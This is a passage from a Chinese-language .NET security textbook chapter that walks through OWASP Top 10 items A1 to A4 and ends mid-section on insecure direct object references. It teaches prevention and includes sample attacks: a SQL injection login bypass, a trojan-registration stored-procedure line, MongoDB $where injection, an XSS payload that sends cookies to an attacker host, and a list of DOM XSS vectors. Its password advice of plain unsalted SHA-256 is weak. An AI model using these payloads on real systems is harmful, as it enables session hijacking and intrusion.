







# 第十一章。安全

在上一章中，我们看到了一些关于软件设计、设计模式和它们在 .NET 框架中实现或使用方式的广泛应用和使用的原则。

在本章中，我们将研究安全问题和建议；或者构建和部署安全应用程序时应采取的措施。我们还将探讨这些安全问题如何影响 .NET 应用程序。

我们的起点将是 **OWASP**（**开放网络应用安全项目**）的提案。OWASP 是一个安全倡议，旨在定期提供有关网络安全的最新的信息，包括可能的流量类型，提供关于处理威胁、预防措施等方面的最佳方法。

我们的分析将集中在 OWASP 组织发布的十大安全威胁的定义和预防措施上，以及对于开发者的影响，以及在适用的情况下，这些措施如何在 .NET 框架解决方案中实施。

在本章中，我们将涵盖以下主题：

+   OWASP 创新项目

+   OWASP 前 10 大

+   注入

+   破解认证和会话管理

+   跨站脚本

+   不安全直接对象引用

+   安全配置错误

+   敏感数据泄露

+   缺少功能级访问控制

+   跨站请求伪造

+   使用已知漏洞的组件

+   无效的重定向和转发。

# OWASP 创新项目

**OWASP** 的官方定义如下：

> “开放网络应用安全项目（OWASP）是一个开放的社区，致力于使组织能够开发、购买和维护可信赖的应用程序。”

最初，OWASP 被认为是一套关于安全的全球性指南和建议，由专注于通过使安全可见来提高软件安全性的非营利组织 [OWASP.org](http://OWASP.org) 集中发布。

它的官方网站可以在 [`www.owasp.org/index.php/Main_Page`](https://www.owasp.org/index.php/Main_Page) 找到，它提供了关于应用安全工具和标准的指南，以及书籍、控件和库，多个安全主题的研究，全球会议，邮件列表以及一系列资源。

OWASP 官方网站宣布自己是一个实体：

> “摆脱商业压力”，用他们自己的话说，这使他们能够“提供无偏见、实用、成本效益的信息关于应用安全”。

# OWASP Top 10

在之前提到的提案中，所谓的 OWASP Top 10 是全球程序员最需要的。

它的主要目标是帮助开发者识别组织面临的最关键的安全风险。为了帮助完成这项任务，他们发布了一份定期公告，自 2010 年开始发布。当前的更新版本是 2013 年版，尽管他们正在为 2017 年版本工作，但撰写本文时该版本尚未可用。

下面的图形展示了前 10 个漏洞。它假设排序很重要，第一个是最常用或最危险的（在许多情况下两者都是）：



此外，请记住，攻击通常可以由不同的步骤组成，每个步骤都使用这些漏洞中的某些（这种情况发生在我们知道的某些最复杂的攻击中）。

在图中，OWASP 解释了一个用例，其中某个行为者获得了对有价值资源的访问权限，以及涉及过程中的元素。不知何故，绝大多数攻击都遵循这个序列图：



正如论文所述，威胁行为者使用的路径可以是简单的，也可以是非常复杂的。通常，它们很难识别和重现。他们建议以下做法：

> “为了确定对您组织的风险，您可以评估每个威胁行为者、攻击向量和安全弱点相关的可能性，并将其与对您组织的技术和业务影响的估计相结合。这些因素共同决定了整体风险。”

如果你还记得第十章，*设计模式*，它与威胁模型有关，也就是说，基本上，这是我们讨论威胁时提到的相同信息。

因此，似乎在安全管理及其应考虑的原则上已经达成共识。

本章将要讨论的前 10 个威胁列表解释了每个漏洞的根源、攻击的典型场景以及推荐的预防措施。我们将回顾它们，并探讨它们如何影响 C#和.NET 程序员。

让我们先引用这十个定义，并将它们作为我们分析的开始点（文档的免费版本可在[`www.owasp.org`](http://www.owasp.org)找到）：

+   **A1 - 注入**：注入漏洞，如 SQL、OS 和 LDAP 注入，发生在不受信任的数据作为命令或查询的一部分发送到解释器时。攻击者的恶意数据可以欺骗解释器执行未授权的命令或访问数据。

+   **A2 - 破解认证和会话管理应用**：与应用程序认证和会话管理相关的功能往往没有正确实现，这允许攻击者泄露密码、密钥或会话令牌，或者利用其他实现缺陷来冒充其他用户的身份。

+   **A3 - 跨站脚本 (XSS)**：XSS 漏洞发生在应用程序未经适当验证或转义就将不受信任的数据发送到 Web 浏览器时。XSS 允许攻击者在受害者的浏览器中执行脚本，这可以劫持用户会话、篡改网站或将用户重定向到恶意网站。

+   **A4 - 不安全的直接对象引用**：直接对象引用发生在开发人员暴露对内部实现对象的引用时，例如文件、目录或数据库键。如果没有访问控制检查或其他保护措施，攻击者可以操纵这些引用以访问未经授权的数据。

+   **A5 - 安全配置错误**：良好的安全需要为应用程序、框架、应用程序服务器、Web 服务器、数据库服务器和平台定义并部署安全的配置。应定义、实施和维护安全设置，因为默认设置通常是不安全的。此外，软件应保持更新。

+   **A6 – 敏感数据泄露**：许多 Web 应用程序没有正确保护敏感数据，例如信用卡、税务 ID 和认证凭证。攻击者可能会窃取或修改这些薄弱保护的数据，以进行信用卡欺诈、身份盗窃或其他犯罪。敏感数据应得到额外保护，例如在静态或传输中加密，以及在与其他浏览器交换时采取特殊预防措施。

+   **A7 – 缺失的功能级别访问控制**：大多数 Web 应用程序在将功能可见于用户界面之前会验证功能级别的访问权限。然而，当每个功能被访问时，应用程序需要在服务器上执行相同的访问控制检查。如果请求未经验证，攻击者将能够伪造请求以未经授权的方式访问功能。

+   **A8 - 跨站请求伪造 (CSRF)**：CSRF 攻击迫使已登录受害者的浏览器发送一个伪造的 HTTP 请求，包括受害者的会话 cookie 和任何其他自动包含的认证信息，到易受攻击的 Web 应用程序。这允许攻击者强制受害者的浏览器生成易受攻击的应用程序认为是从受害者那里发出的合法请求。

+   **A9 - 使用已知漏洞的组件**：组件，如库、框架和其他软件模块，几乎总是以完全权限运行。如果易受攻击的组件被利用，此类攻击可以导致严重的数据丢失或服务器接管。使用已知漏洞组件的应用程序可能会削弱应用程序的防御，并启用一系列可能的攻击和影响。

+   **A10 – 未经验证的跳转和转发**：Web 应用程序经常将用户跳转到其他页面和网站，并使用不受信任的数据来确定目标页面。如果没有适当的验证，攻击者可以将受害者重定向到钓鱼或恶意网站，或使用转发来访问未经授权的页面。

正如我们所见，有 10 个不同的区域需要关注，作为程序员，我们应该考虑这些区域，尽管负责构思和规划应用程序的团队也应该从任何软件项目的开始就牢记这些。

因此，让我们来看看 A1 威胁，这是许多程序员眼中所有邪恶的根源：各种形式的注入。

# A1 – 注入

注入威胁始终基于用户的输入数据。一个解释器将获取这些信息，并假设将这些数据纳入要执行的句子背后的正常流程中。

因此，关键在于潜在的攻击者应该知道他们试图超越的引擎。然而，A1 提到的三个主要引擎是 SQL、操作系统和 LDAP，其中第一个是最常见的（这也是为什么它是最危险的）。

## SQL 注入

SQL 注入可能是其中最广为人知的。它基于 SQL 语言的一些特性：

+   可以用分号（`;`）分隔多个句子连接在一起

+   你可以使用双破折号（`--`）插入内联注释

+   程序员不关心用户引入的内容，并将这些内容添加到传递给解释器的字符串中，解释器盲目地执行命令：

正如图中所示，你只需传递句子`or 1=1 --`即可使其工作。如果最终句子类似于`Select [User] from [Users] where [Password] = whatever`，尽管你没有包括正确的密码，但由于`1 = 1`是真的，并且由于双破折号注释，程序员放在其旁边的任何内容都被忽略。因此，你被验证并通过了系统。还有许多其他可能性或变体也是可能的，但它们始终基于相同的思想。风险可能非常大，因为它们甚至可以连接或删除句子，甚至调用存储过程，如`xp_cmsShell`，它在目标系统中执行句子，从而完全控制它。

在最坏的情况下，它甚至可以在机器中插入一个木马。想象一下，木马被命名为`xp_tr.dll`，并且它位于我们的`C:\temp`目录中。我们可以在之前的代码旁边使用这样的句子：

```cs
master..sp_addextendedproc 'xp_webserver ', 'c:\temp\xp_tr.dll'—
```

从那一刻起，我们将使用`xp_webserver`来调用我们的木马作为存储过程，从而获得其中安装的功能。

## 预防

防御措施？不要信任任何来自用户的输入，因此利用一种解析机制，强制即将到来的字符串成为你期望的样子。正如你所见，问题不仅限于应用程序类型：它可能是桌面应用程序或网站：问题始终相同。

因此，任何数据输入都有可能是恶意的。无论数据来自何方或何人。这就是 OWASP 所说的威胁代理。

防御这类攻击主要有三种主要策略：

+   使用参数化查询，也称为预定义语句

+   使用存储过程

+   转义所有来自用户的输入

让我们看看第一个案例是如何表现的：

```cs
// Case 1
var connection = newOleDbConnection();
string query =
"SELECT account_balance FROM user_data WHERE user_name = ?";
try
{
  OleDbCommand command = newOleDbCommand(query, connection);
  command.Parameters.Add(newOleDbParameter("customerName", txtCustomerName.Text));
  OleDbDataReader reader = command.ExecuteReader();
  // …
}
catch (OleDbException ex)
{
  // Give some exception information
}
```

在这种情况下，潜在的危险参数被创建为一个新的 `OleDbParameter` 对象，如果用户插入一个不适合任务的字符串，这是不可能的。这同样适用于其他类型的参数，例如，如果客户端是 `SQLClient`，则可能是 `SQLParameter`。

第二种解决方案是使用存储过程。只要程序员不包含任何不安全的存储过程生成，参数化查询的效果与上一个案例相同。

以下代码假设存在一个 `SQLConnection` 对象，并且连接指向的 SQL 服务器中存储了一个名为 `sp_getAccountBalance` 的存储过程对象。创建新的 `SQLParameter` 对象的过程与第一个案例类似：

```cs
// Case 2
try
{
  SqlCommand command = newSqlCommand("sp_getAccountBalance", connectionSQL);
  command.CommandType = CommandType.StoredProcedure;
  command.Parameters.Add(newSqlParameter("@CustomerName", txtCustomerName.Text));
  SqlDataReader reader = command.ExecuteReader();
}
catch (Exception)
{
  throw;
  // Give some excepcion information
}
```

第三个案例涉及输入的转义（或**白名单输入验证**），这可以通过几种方式完成。这可能是在用户动态选择要使用的表时的情况。在这种情况下避免风险的最佳方式是提供一个可能的值白名单，避免任何其他输入。

这相当于使用 `Enum` 类型，指定查询将要接受的可能的表：

```cs
// Case 3
String tableName = "";
switch (tableName) { 
  case"Customers":
    tableName = "Customers";
  break;
  case"Balance":
    tableName = "Balance";
  break;
  // ...                
  default: thrownewInputValidationException(
    "Invalid Table Name");
}
```

除了上述技术之外，还有其他与特定 RDBMS 相关的特定解决方案。对于 SQL Server 数据库，可以在 [`blogs.msdn.microsoft.com/raulga/2007/01/04/dynamic-sql-sql-injection/`](https://blogs.msdn.microsoft.com/raulga/2007/01/04/dynamic-sql-sql-injection/) 找到一篇关于该主题的好文章。

## 无 SQL 数据库的案例

官方文档提供了一些关于使用 SQL 注入攻击非关系型引擎的可能攻击的见解。

在我们考察的 第七章 的 MongoDB 引擎案例中，当攻击者能够操作使用 `$where` 操作符传递的信息时，包括一些可以解析为 MongoDB 查询一部分的 JavaScript 代码时，问题就出现了。

考虑以下示例，其中代码直接传递到 MongoDB 查询中，没有任何检查：

```cs
db.myCollection.find( { active: true, $where: function() { return obj.credits - obj.debits < $userInput; } } ); 
```

这里的技巧在于使用对引擎背后的 API 有特殊意义的特殊字符。攻击者可以通过检查包含某些字符的结果来确定应用程序是否正在清理输入。

注入与目标 API 语言相关的特殊字符，并观察结果，可能允许测试人员确定应用程序是否正确清理了输入。例如，在 MongoDB 中，如果传递了一个包含以下特殊字符（`'` `"` `\` `;` `{` `}`）的字符串而没有控制，就会触发数据库错误。

尽管如此，由于 JavaScript 是一种功能齐全的语言，它允许攻击者操纵数据并运行任意代码。想象以下代码被插入到之前代码中提到的 `$userInput` 变量中：

```cs
0; var date = new Date(); do { curDate = new Date(); } while (curDate - date < 10000)
```

JavaScript 代码将被执行...

之前提到的 OWASP 资源将为您提供有关其他类型注入的线索和建议：LDAP 注入、XML 注入、命令注入、ORM 注入、SSI（服务器端包含）注入等。

通常，*OWASP 测试指南 v4 目录*文档([`www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents`](https://www.owasp.org/index.php/OWASP_Testing_Guide_v4_Table_of_Contents))是该活动的详尽和更新资源，用于分析和寻找与这些类型安全威胁相关的众多攻击的指导。

# A2 – 破解认证和会话管理

这里的问题与身份和权限相关。正如官方定义所述：

> “与认证和会话管理相关的应用程序功能通常没有正确实现，这允许攻击者破坏密码、密钥或会话令牌，或者利用其他实现缺陷来假设其他用户的身份。”

当虚假认证的用户是远程的（典型情况）且因此难以追踪时，这甚至更糟。

这里的问题有很多：

+   我们可能会接受不受欢迎的用户（信息和操作披露）

    +   当不受欢迎的用户获得管理员权限，从而将整个系统置于风险之中时，这是一种这种攻击的变体。

+   我们可能会接受一个拥有超出合法信息使用凭证的用户

通常来说，我们可以将其视为一个模拟或提升权限的问题（无论是攻击者根本没有任何权限，还是它提升到了比原本意图更高的级别）。

## 原因

这有几个原因。最广为人知的如下：

+   用户认证在存储时未受保护（应使用哈希或加密）

+   密码的弱点可能允许攻击者通过*暴力破解*过程（通常尝试使用最常见的已知密码列表）获得访问权限

+   会话 ID 可以通过 URL 暴露，容易受到会话固定的攻击，没有超时，或者在注销时没有正确失效

+   当然，所有这些信息都不是通过加密连接发送的

这可能是所有攻击中最受欢迎的，因为它在关于黑客的文献和电影中非常常见（通常被过度夸张，比如说）。

它通常与其他所谓的*社会工程学*技术并列出现，Wikipedia 对其定义为如下：

> 心理操纵人们执行行动或泄露机密信息。

许多著名的黑客，如凯文·米特尼克（Kevin Mitnick），被认为是这一领域的真正大师（他现在自己经营着一家网络安全公司）。

当然，在 OWASP（开放网络应用安全项目）的倡议中，我们可以找到关于根据不同场景应对这种威胁的最佳方法的丰富信息。

### 预防

我们可以采取哪些措施来积极预防这种攻击？有一些已建立的措施：

+   首先，开发人员应始终提供一套强大的单一身份验证和会话管理控制。因此，身份验证和会话管理应符合 OWASP **应用安全与验证标准**（**ASVS**）以及区域 V2（身份验证）和 V3（会话管理）中规定的需求。

    +   该文档可在[`www.owasp.org/index.php/ASVS`](https://www.owasp.org/index.php/ASVS)找到，并已最近更新（截至 2016 年 7 月为版本 3.0.1）。

+   开发人员应保持一个简单的界面。关于这一点的建议在 ESAPI 身份验证器和用户 API 中得到了广泛解释。

+   虽然这属于 A3 类型的威胁，但在这种情况下，考虑可能的跨站脚本攻击也应是最重要的。

ASVS 有三个级别的预防措施，**机会主义**、**标准**和**高级**。

当一个应用程序充分防御易于发现的应用安全漏洞，并且包括在 OWASP Top 10 和其他类似清单中（如官方文档中定义的）时，据说已达到第一级水平。

当应用程序管理的资产没有特殊风险，或者预期的攻击类型不会超出使用简单低效技术来识别易于发现和利用的漏洞时，这种保护似乎足够了。

第 1 级应该是所有应用程序所需的最小要求。

当我们防御今天软件的大多数风险时，我们达到了第二级（标准）水平。这通常适用于处理大量企业对企业交易的应用程序，包括处理医疗信息、实施业务关键或敏感功能或处理其他敏感资产的应用程序，这表明了 ASVS（应用安全验证标准）。

最后，第 3 级是为需要高等级安全验证的应用程序保留的，例如军事、健康和安全、关键基础设施等领域。

对于执行关键功能且故障可能影响运营甚至组织生存的软件，组织可能需要 ASVS 第 3 级。

## A2 的.NET 编码

在.NET 编程中，我们有多种可能性来强制执行安全身份验证和授权，以及许多其他选项，包括专门用于安全性的命名空间（`System.Security`）和加密（`System.Security.Cryptography`）。

### 桌面应用程序

对于桌面应用程序，主要的安全级别当然是基于登录。这意味着应用程序的唯一访问应该通过登录窗口，在开始时针对一个安全存储系统（最好是数据库）启动。

在这种情况下没有太多可说的，因为这都是关于避免我们在前一点看到的方式中的任何 SQL 注入。

然而，有几项考虑应该被衡量。首先，对于那些应用程序简单且密码应存储在`app.config`文件中的情况，密码需要加密。

我们可以使用.NET 资源非常容易地做到这一点，有很多种方法：例如，我们可以访问已经为这种用途准备好的哈希和加密类。

以下示例代码将给你一个关于如何使用它的想法：

```cs
publicstaticbyte[] HashPassword(string password)
{
 var provider = newSHA1CryptoServiceProvider();
  var encoding = newUnicodeEncoding();
  return provider.ComputeHash(encoding.GetBytes(password));
}
```

然而，这里使用的算法并不是最安全的，因为它最近似乎已经被破坏了。所以，最好使用更高级的版本，例如`SHA256Managed`。因此，提供者的初始化应该使用以下代码：

```cs
publicstaticbyte[] HashPassword256(string password)
{
  SHA256 mySHA256 = SHA256Managed.Create();
  var encoding = newUnicodeEncoding();
  return mySHA256.ComputeHash(encoding.GetBytes(password));
}
```

## 网络应用程序

当谈到旧的 ASP.NET Web Forms 应用程序时，事实是它们在服务器上实现了很好的安全性：

+   首先，有一些服务器组件会自动执行的事情：对 HTML 值和属性进行编码，以防止 XSS 攻击，我们将在下一点（A3）中讨论。

+   此外，`ViewState`也被加密并验证，以避免来自发布信息的“篡改”。

+   程序员在`@page`声明中有一个`validaterequest`属性可用，可以用来捕获可疑数据。

+   另一种防止通过注入攻击的方法是事件验证，以控制无效的已发布信息。

然而，在 ASP.NET MVC 中，这些功能中的大多数都不存在。因此，我们有另一组选择来确保这些功能。

首先，当你创建一个新的 ASP.NET MVC 应用程序时，你会得到一些关于身份验证的选择：

+   无身份验证

+   个人用户账户

+   工作和学校账户

+   Windows 身份验证

第二个选择（个人账户）允许用户通过 Facebook、Twitter 或 Google 账户（甚至另一个安全机制）进行身份验证。

第三个选择是为那些使用 Active Directory、Microsoft Azure Active Directory 或 Office 365 对用户进行身份验证的应用程序。你可以选择单个或多个组织或本地基础设施，如下一张截图所示：



当然，在**Windows 身份验证**中，所有登录到系统的用户都被允许进入。

如果您选择个人认证，Visual Studio 为我们创建的原型项目给我们提供了一些关于如何正确编码的线索。

如果您查看默认项目，您会看到有几个类实现了关于身份、密码等方面的所有管理。这包含在由默认项目生成的`ManageControllers.cs`文件中。

在这种情况下，采取的推荐措施是使用可能损害安全性的那些控制器中的属性。授权属性允许您配置谁可以使用相应的控制器（或者如果您想获得更细粒度的控制，可以使用动作方法）。

此代码解释了如何实现几个安全功能：

+   一方面，这些带有`[HttpPost]`属性的标记方法也带有另一个属性，即`[AntiForgeryToken]`。这用于防止与 OWASP A8（跨站请求伪造）相关的一种攻击，我们稍后会讨论。

+   此外，整个`ManageController`类都带有`[Authorize]`属性。此属性阻止任何未经授权的用户访问此方法，如果尝试访问它，将抛出异常。`Authorize`强制应用程序拒绝任何既未认证也未授权的用户。

此属性允许程序员进行一些自定义：您可以根据以下截图指示特定的角色、特定的用户或两者，如下所示：



除了这些措施之外，查看`AccountController`类可以看到几个带有安全属性标记的方法。该类本身带有`AuthorizeAttribute`标记，但我们还发现一些方法带有`[AllowAnonymous]`标记。原因是某些动作和控制器在授权过程中被`AuthorizeAttribute`跳过，目的是允许对这些方法进行初始访问。

至于第二种认证方式，即通过 Google、Twitter 或 Facebook 提供的外部登录，现在可以通过`OAuth`和`OpenID`实现，这两个标准是社交网络中广泛使用的认证标准。

与这些标准相关的协议在过去不容易实现，因为它们很复杂；此外，一些顶级提供者习惯于以某些差异来实现它们。幸运的是，MVC 项目模板简化了我们可以管理这些选项的方式。

以下（注释的）代码在项目中看起来就像这样，以便您可以使用这些外部提供者（您可以在`Startup.Auth.cs`文件中找到它们）来编写这些新选项：

```cs
// Uncomment the following lines to enable logging in with third party
//login providers
//app.UseMicrosoftAccountAuthentication(
//  clientId: "",
//  clientSecret: "");

//app.UseTwitterAuthentication(
//  consumerKey: "",
//  consumerSecret: "");

//app.UseFacebookAuthentication(
//  appId: "",
//  appSecret: "");

//app.UseGoogleAuthentication(new GoogleOAuth2AuthenticationOptions()
//{
//   ClientId = "",
//  ClientSecret = ""
//});
```

如您所见，每个提供者都需要某种用户和密码组合，您可以将它们保存在为此目的选定的存储介质中。

最后，请注意还有其他与安全相关的属性你可能可以使用：例如，你可以通过添加 `[RequireHttps]` 属性来强制从外部提供者回调以使用 HTTPS 而不是 HTTP，该属性与你要保护的临界操作方法相关联。

以这种方式，你只需一个属性就能增加一层额外的安全防护。

# A3 – 跨站脚本（XSS）

由于开发者社区对其缺乏了解以及缺乏预防措施，XSS 被认为是最具问题的安全问题之一。

虽然在某些实现中这很简单，但这也是为什么它如此危险。已知有三种 XSS 攻击形式：存储型、反射型和基于 DOM 的。

这些攻击的官方示例之一（反射型）展示了以下代码：

```cs
"<input name='creditcard' type='TEXT' value='" + request.getParameter("CC") + "'>";
```

即，页面根据请求构建一个输入字段。此外，攻击者还可以以这种方式修改页面：

```cs
'><script>document.location='http://www.attacker.com/cgi-bin/cookie.cgi?foo='+document.cookie</script>'.
```

发生了什么？插入的代码将请求的用户信息反射给攻击者，或者换句话说，就像 OWASP 文档中提到的：

> “这会导致受害者的 SessionID 被发送到攻击者的网站，允许攻击者劫持用户的当前会话。”

存储型 XSS（虽然有很多种）是与任何可能的用户输入相关的典型攻击类型，例如带有用户评论的博客等。攻击者的响应被保存在网站的存储系统中，这就是为什么叫这个名字。

在这种情况下，攻击者首先会做的事情是在答案中插入一个应该被转义的字符，以查看它是否确实被转义（例如，像 `<` 这样的字符）。如果字符出现（没有被转义），这意味着程序员没有在注释中检查输入。

现在是棘手的部分：你不仅可以插入一个简单的 `<` 符号，还可以插入类似这样的内容：

```cs
<iframe src="img/hackersite.com" height="400" width=500/>
```

由于这将在页面上与内容一起渲染，所以你写的任何内容都将被插入并显示。当然，如果你不是仅仅使用 iframe，而是插入一个加载一些危险 JavaScript 的脚本标签，那就更邪恶了：

```cs
"></a><script src="img/dangerous_site.com"></script><a href="
```

由于新的锚点标签不包含任何文本且不可见，因此用户将不会注意到这一点。现在，当任何用户访问网站时，此脚本将运行，向攻击者发送 JavaScript 代码已准备发送的信息。

一些作者将这种技术称为被动注入，而不是主动注入，在主动注入中，用户在不知道风险的情况下参与了黑客攻击过程。

最后，基于 DOM 的 XSS 版本使用 DOM 标签执行其操作。这些攻击修改了已知用于搜索和加载外部内容的标签：`img`、`link`、`script`、`input`、`iframe`、`object`，甚至`body`、`div`或`table`，以改变背景属性为借口。

这里有一些这些攻击的示例：

```cs
<!-- Different DOM Based attacks -->
<!-- External script -->
<scriptsrc=http://hackersite.com/xss.js></script>
<!-- <link> XSS -->
<linkrel="stylesheet"href="javascript:alert('XSS');">
<!--  XSS -->
<imgsrc="img/javascript:alert('XSS');">
<!-- <input> XSS -->
<inputtype="image"src="img/javascript:alert('XSS');">
<!-- <object> XSS -->
<objecttype="text/x-scriptlet"data="http://hackersite.com/xss.html"/>
```

注意，即使是 `div`、`table` 或 `body` 这样的 *无辜* 标签，也可以用于这些目的：

```cs
<!-- <div> XSS -->
<divstyle="background-image: url(javascript:alert('XSS'))"></div>
<!-- <div> XSS -->
<divstyle="width: expression(alert('XSS'));"></div>
<!-- <table> XSS -->
<tablebackground="javascript:alert('XSS')">
<!-- <td> XSS -->
<tr><tdbackground="javascript:alert('XSS')"></td></tr>
</table>
<!-- onload attribute -->
<bodyonload=alert("XSS")>
<!-- background attribute -->
<bodybackground="javascript:alert('XSS')">
```

## 预防措施

通常，文档中声明如下：

> 防止 XSS 需要将不受信任的数据与活动浏览器内容分离。

实际上，为了解决这个问题，有几种建议：

+   我们应该首先根据 HTML 上下文（正如我们所看到的：body、属性、任何 JavaScript 或 CSS，甚至是 URL）正确转义所有不受信任的数据。*XSS（跨站脚本）预防备忘录*([`www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet`](https://www.owasp.org/index.php/XSS_(Cross_Site_Scripting)_Prevention_Cheat_Sheet))）文档包含了如何应用这些数据转义技术的详细信息。

+   在前面的要点中我们看到的白名单输入验证技术也建议使用，但它并不是完整的防御措施，因为某些应用程序需要接受特殊字符。对于这种情况，我们应该在接收任何输入之前验证长度、字符、格式和业务规则。

+   其他措施包括自动清理库，甚至使用**内容安全策略**（**CSP**）来保护您的整个网站免受 XSS 攻击。

在.NET 中，默认情况下采取了一些措施，正如我们之前提到的。这包括默认插入一些 JavaScript 库，例如 jQuery Validate 和 jQuery Validate Unobtrusive，以便在向服务器发送任何数据之前检查用户的输入。

总的来说，建议您考虑应用程序可能受影响的区域以及处理的数据的商业价值和商业影响。

另一个需要记住的资源是*基于 DOM 的 XSS 预防备忘录*([`www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet`](https://www.owasp.org/index.php/DOM_based_XSS_Prevention_Cheat_Sheet))文档。

# A4 – 不安全直接对象引用

让我们记住这个定义：

> 直接对象引用发生在开发人员暴露对内部实现对象的引用时，例如文件、目录或数据库键。如果没有访问控制检查或其他保护措施，攻击者可以操纵这些引用以访问未经授权的数据。

对于某些场景，这要求攻击者（碰巧是该网站的合法用户）了解要攻击的资源的一些信息，以便用预期的信息（例如他们的用户账户）替换受害者的信息（在这种情况下，另一个账户号码，例如）。

OWASP 提供的典型示例重新创建了一个场景，在该场景中，使用 SQL 请求进行账户查询：

```cs
String query = "SELECT * FROM accts WHERE account = ?";
PreparedStatement pstmt =connection.prepareStatement(query , … );
pstmt.setString( 1, request.getParameter("accountNo"));
ResultSet results = pstmt.executeQuery( );
```

关键在于`request.GetParameter("accountNo")`。攻击者可以更改这个账户号码为另一个（一旦登录）并尝试访问他人的信息。

例如，如果账户号码在 URL 中发送，就有可能重新创建这个请求，包括预期的、外部的账户：

```cs
http://example.com/app/accountInfo?acct=AnotherAccountNo
```

这是对受限资源的直接引用，问题是：用户是否真的应该有权访问请求中包含的`AnotherAccountNo`参数？

此外，引用可能是间接的。因此，正如 OWASP 提醒我们的，这里需要回答的问题是：

> 如果引用是间接引用，映射到直接引用是否未能限制值到当前用户授权的值？

注意，自动化工具通常不会寻找这类流程，因为它们无法识别什么需要保护，什么不需要。这种类型的漏洞相当常见，但我们发现它在应用程序中是由于未经测试的编码场景。

## 预防

建议的预防方法是避免不安全直接对象引用，保护对象编号、文件名等。

+   建议使用针对每个用户或会话的间接对象引用。这意味着，例如，现在允许用户手动输入要请求的账户号码，但，而不是直接输入，而是输入一个描述，甚至是对它的引用。

    +   此描述（或引用）将在运行时解析，将其映射到适当的用户账户。

+   此外，我们还被提醒，*从不受信任的来源使用直接对象引用的每次使用都必须包括访问控制检查，以确保用户有权访问请求的对象*。

    +   在.NET 项目中，通过在建立连接或访问请求的资源之前使用相应的程序来解决这个问题很容易。

    +   例如，程序可以内部存储已登录用户的资源列表或可用资源，并在尝试访问它们之前只允许这些资源。

OWASP **企业安全 API 项目**（**ESAPI**）包含有关如何管理这些类型攻击的更多信息（[`www.owasp.org/index.php/Project_Information:_OWASP_Enterprise_Security_API_Project`](https://www.owasp.org/index.php/Project_Information:_OWASP_Enterprise_Security_API_Project)）。

### 注意

另一套官方的指南和建议可在*Top 10 2007-不安全直接对象引用*中找到，网址为[`www.owasp.org/index.php/Top_10_2007-Insecure_Direct_Object_Reference`](https://www.owasp.org/index.php/Top_10_2007-Insecure_Direct_Object_Reference)。

注意，用户也可能基于文件进行攻击，请求一个已知包含受保护信息的资源文件。

Pluralsight 的 MVP 开发者 Troy Hunt 详细展示了一种攻击，使用 ASP.NET 应用程序，其中用户登录后即可获得用户账户的详细信息（参考[`www.troyhunt.com/owasp-top-10-for-net-developers-part-4/`](https://www.troyhunt.com/owasp-top-10-for-net-developers-part-4/)）。

以下截图为我们提供了攻击的关键：



